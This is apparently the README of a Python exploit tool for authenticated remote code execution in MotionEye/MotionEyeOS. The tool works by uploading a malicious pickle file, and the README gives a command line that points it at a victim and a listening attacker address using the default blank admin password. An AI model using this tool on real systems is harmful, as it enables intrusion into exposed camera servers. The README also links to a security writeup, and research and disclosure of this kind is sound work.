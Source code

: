 # MotionEye/MotionEyeOS Authenticated RCE
A Python 3 script that uploads a tasks.pickle file that enables RCE in MotionEye. You need administrator credentials, so it should not be that big of a deal. Unfortunately, MotionEye/MotionEyeOS can frequently be found running with default credentials. 

Example:

main.py --victim 192.168.1.2 --attacker 192.168.1.3:4444

Where victim and attacker are in the form of ip:port, unless it is port 80. Then, the port can be excluded. This uses the default username of admin with a blank password. There are also CLI options for alternate usernames/passwords. Please see the code for more details. 

See https://www.pizzapower.me/2021/10/09/self-hosted-security-part-1-motioneye for a writeup on this and other issues. 
